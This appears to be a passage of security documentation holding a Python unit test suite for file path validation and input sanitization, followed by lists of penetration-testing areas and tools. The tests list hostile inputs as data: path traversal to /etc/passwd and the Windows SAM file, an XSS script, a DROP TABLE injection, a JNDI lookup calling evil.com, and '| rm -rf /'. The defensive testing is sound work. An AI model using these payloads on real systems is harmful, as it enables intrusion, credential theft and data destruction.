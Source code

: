 #### Dynamic Analysis

```python
import unittest
import subprocess

class SecurityTestCase(unittest.TestCase):
    """Security test cases"""
    
    def test_file_path_validation(self):
        """Test file path validation security"""
        malicious_paths = [
            '../../../etc/passwd',
            '..\\..\\windows\\system32\\config\\sam',
            'file:///etc/passwd',
            'http://evil.com/malicious.py'
        ]
        
        for path in malicious_paths:
            with self.assertRaises(SecurityError):
                validate_file_path(path)
    
    def test_input_sanitization(self):
        """Test input sanitization"""
        malicious_inputs = [
            '<script>alert("xss")</script>',
            '"; DROP TABLE users; --',
            '${jndi:ldap://evil.com/a}',
            '| rm -rf /'
        ]
        
        for input_data in malicious_inputs:
            sanitized = sanitize_input(input_data)
            self.assertNotIn('<script>', sanitized)
            self.assertNotIn('DROP TABLE', sanitized)
```

#### Penetration Testing

#### Test Areas

1. **Input Validation**: Test for injection attacks
2. **File Operations**: Test for path traversal and file access
3. **Network Operations**: Test for network-based attacks
4. **Memory Management**: Test for buffer overflows and memory leaks

#### Test Tools

- **OWASP ZAP**: Web application security testing
- **Burp Suite**: Security testing and vulnerability scanning
- **Metasploit**: Exploitation framework for penetration testing
- **Nmap**: Network scanning and vulnerability detection
